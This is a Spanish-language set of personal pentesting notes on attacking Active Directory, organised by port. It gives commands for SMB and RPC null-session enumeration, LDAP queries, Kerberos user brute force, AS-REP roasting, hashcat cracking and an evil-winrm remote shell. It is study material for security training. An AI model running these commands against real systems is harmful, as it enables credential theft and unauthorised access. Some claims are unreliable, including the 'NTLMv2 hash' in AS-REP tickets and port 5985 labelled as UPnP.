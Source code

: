 ![[ActiveDirectory.png]]

---

![[Pasted image 20230302212154.png]]

##### Un "domain" en Active Directory es un grupo de computadores y usuarios que comparten una base de datos centralizada de información de seguridad y configuración. Es como una especie de "club" en el que las pc's y users se registran y comparten recursos y permisos de acceso, lo que les permite trabajar juntos de manera más eficiente y segura. El admin 
##### (Domain Controler) del domio puede establecer políticas y configs para todas las pc's y users dentro del dominio, lo que facilita la gestión de la red. 
##### El "Active Directory" contiene informacipón sobre todos los objetos de seguridad del dominio, incluidos users, grupos, pc's y recursos compartidos.

----
- ### Enumerar puerto 445 (default) ( #SMB ) 

```shell
crackmapexec smb {taget_ip}
# Obtener información de la maquina victima, esto puede devolvernos el nombre de la maquina, dominios, version de windows, etc (Dominios al /etc/hosts)
crackmapexec smb {target_ip0} --shares
# Intentar enumerar recursos compartidos a nivel de red
smbmap -H {target_ip} -u "null"
# Otra alternativa para intentar enumerar recursos compartidos a nivel de red y como no tenemos credenciales especificando -u "null" o no poniendo esto estamos intentando hacerlo con una null sesion.
smbclient -L {target_ip} -N
# Otra alternatica para de nuevo intentar enumerar recursos compartidos a nivel de red, -N (Null sesion)
smbclient //{target_ip}/{recurso_name} -N 
# Conectarse a un recurso compartido a nivel de red con Null session 
# Una vez conectado, podriamos listar los recursos # shares, # use {recurso}, # ls, # get 
crackmapexec smb {target_ip} -u users.txt -p "password" --continue-on-success
# Realizar fuerza bruta de validacion de credenciales para un grupo de usuarios

# Muchas veces, en los servicios smb tenemos muchas carpetas y el ir moviendonos entre ellas y demás se vuelve más dificil, lo que podemos hacer es jugando con monturas traernos todas las carpetas a una ruta de nuestro sistema. Primero tendriamos que tener instalado el cifs-utils para mosteriormente ejecutar el sig comando: 
mount -t cifs //{target_ip}/{recurso} /our/path
# Tambien se puede intentar mostrar la montura de la sig manera:
mount -t cifs //{target_ip}/{recurso} /our/path -o username=null,password=null,domain=,rw
# Y para desmontar la montura 
umount /our/path
```

- ### Puerto 135 (default) ( #RPC )

```shell
rpcclient -U "" {target_ip} -N
# Si nos devuelve "rpcclient $>" podriamos intentar enumerar usuarios (enumdomusers) del DA para intentar realizar ataques como "AS-REP Roast" 
rpcclient -U "user%password" {target_ip} -N
# Esto con "rpcclient $> enumdomusers" devolveria por ejemplo algo como:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
# Devuelve a los usuarios junto a su rid
rpcclient $> enumdomgroups
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
# Devuelve los grupos junto a su rid 
rpcclient $> querygroupmem {rid} 0x200
rid:[0x1f4] attr:[0x7]
# Esto devuelve todos los usuarios pertenecientes a dicho grupo
rpcclient $> queryuser {rid} 0x1f4
# Esto devuelve los datos del usuario consultado 
rpcclient $> querydispinfo
# Devuelve las descripciones de los grupos 
```

**Descripción:** Un ataque AS-REP Roast es un tipo de ataque de seguridad informático contra el protocolo Kerberos. Este ataque se acontece cuando uno de los Usuarios del Dominio tiene seteado el Atributo **UF_DONT_REQ_PREAUTH** lo que le permite solicitar un TGT a Kerberos (KDC) sin necesidad de proporcionar contraseña. En este mismo TGT se encuentra el Hash NTLMv2 del usuario en cuestion, que luego podriamos intentar crackear con fuerza bruta para obtener la contraseña del usuario.

- ### Puerto 389 (default) ( #LDAP ) 

```shell
ldapsearch -H "ldap://{target_ip}" -x -s base namingcontexts
# Enumerar servicio ldap, en este caso, namingcontexts
ldapsearch -H "ldap://{target_ip}" -x -b {naming_context}
# Enumerar el servicio ldap
ldapsearch -H ldap://{target_ip}/ -x -D 'user@domain' -w 'password' -b "DC=subdomain,DC=tld"
# Corroborar credenciales validas
ldapsearch -H ldaps://{target_ip}/ -x -s base -b '' "(objectClass=*)" "*" +  
# Anonymous access
#################################################################################
nmap -n -sV --script "ldap* and not brute" -p 389 {target_ip}
# Manera alternatica de enumerar el servicio ldap

```

- ##### Más enumeración de LDAP con ldap search en 
##### https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap

- ### Puerto 88 (default) ( #KERBEROS )

##### SecLists/Usernames/xato-net-10-million-usernames.txt ---> Para fuerza bruta

###### Existen herramientas como kerbrute https://github.com/ropnop/kerbrute las cuales nos permiten hacer fuerza bruta hacia kerberos 
- ##### Flujo de interno de #Kerberos [[Kerberos_Authentication_Flow.canvas]]

##### Esto siempre puede ser enlazado con las enumeraciones anteriores, por ejemplo si al enumerar el #ldap vemos que se enumera un namingcontext que puede ser de un usuario como "Owen Bonoris" podriamos pensar de que este sea un usuario valido y comenzar a ingresar combinaciones posibles como usuario:

- owen.bonoris
- owenb
- bowen
- bonoris.o
- obonoris
- o.bonoris
- owen.b
- b.owen

##### etc.  Estas convinaciones podrian ser guardadas en un archivo, por ejemplo users.txt y de esta menera haciendo uso de kerbrute realizar fuerza burta

```shell
kerbrute userenum --dc {target_ip} -d {domain_name} users.txt
# Fuerza bruta al domain de nuestra maquina victima intentando enumerar usuarios validos de ldomain en base a una wordlists de usuarios
impacket-GetNPUsers {domain_name}/ -no-pass -usersfile users.txt
# Esto es para con unos ciertos usuarios probar conseguir el hash NetNTLMv2 pero tambien podria ser usado para fuerza bruta ya que devolveria en caso de conseguir un usuario existente un output diferente.
# Si el usuario no exsite [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database), si el usuario existe [-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set

```

##### Una vez que tuvieramos usuarios tambien podriamos pensar en un *AS-REP Roast Attack*  pero como kerbrute ya lo hace de manera interna, si no vemos en el output un hash quiere decir que el usuario no tiene configurado el *UF_DONT_REQUIRE_PREAUTH*, por lo que no podemos obtener el hash NetNTLMv2.

##### En caso de tener un hash, podriamos usar la herramienta "hashcat" para intentar romper el hash, para esto es importante saber el modo del hash al que nos enfrentamos, por ejemplo, si el hash que capturaramos fuede `$krb5asrep$23$user@domain.com:378sh129fsdf8sdf7...`  podriamos buscar con el comando hashcat --example-hashes y filtradon por el "krb5asrep" (`hashcat --example-hashes | grep -B 11 "krb5asrep"`) para poder conseguir asi el modo que sera utilizado posteriormente con la herramienta "hashcat"
#### `hashcat -m {hash_mode} -a {attack_mode} hash rockyou.txt`
##### Para obtener el hash mode, `hashcat --example-hashes` 

###### En caso de lograr crackear el hash NetNTLMv2, indicaria que podriamos tener credenciales validas, esto lo podemos corroborar con la herramienta "crackmapexec": 
##### (`crackmapexec smb {target_ip} -u {username} -p {password}`)
##### De esta manera, en caso de obtener un "[+]" indicaria de que las mismas son validas, aunque para poder obtener una shell interactiva buscamos que al usuario le aparezca un "Pwn3d!" para poder usar xexec y intentar ganar acceso al sistema, en caso de que no, podriamos en caso de tener el puerto 5985 ( #SSDP / #UPnP) (Servicio de administración remota de windows)
##### De manera que podriamos verificar si el usuario en cuestion pertenece al grupo "Remote Managment Users" los cuales pueden conectarse de manera remota:
##### (`crackmapexec winrm {target_ip} -u {username} -p {password}`)
##### En caso de obtener el glorioso "Pwn3d!", podriamos con herramientas como "evil-winrm",  entablar una consola remota.
##### `evil-winrm -i {target_ip} -u {username} -p {password}`

- ### Puerto 53 (default) ( #Domain )

##### Podriamos emitirs solicitudes DNS para ver si podemos aplicar un DNS zone transfer (AXFR) con la herramienta dig

```shell
dig @{target_ip} {domain_name} ns
# Emitir solicitudes para enumerar Name Servers
dig @{target_ip} {domain_name} mx 
# Emitir solicitudes para enumerar servidores de correo
dig @{target_ip} {domain_name} axfr
# Probar un DNS Zone Trasfer
```

- ### Puerto 5985 (default) ( #WinRM ) 

##### Puerto que suele correr el Servicio de administración remota de windows, el cual al estar activo, podria permitirnos posteriormente intentar con utilidades como crackmapexec, ver si un usuario con credenciales pertenece al grupo "Remote Managament Users".
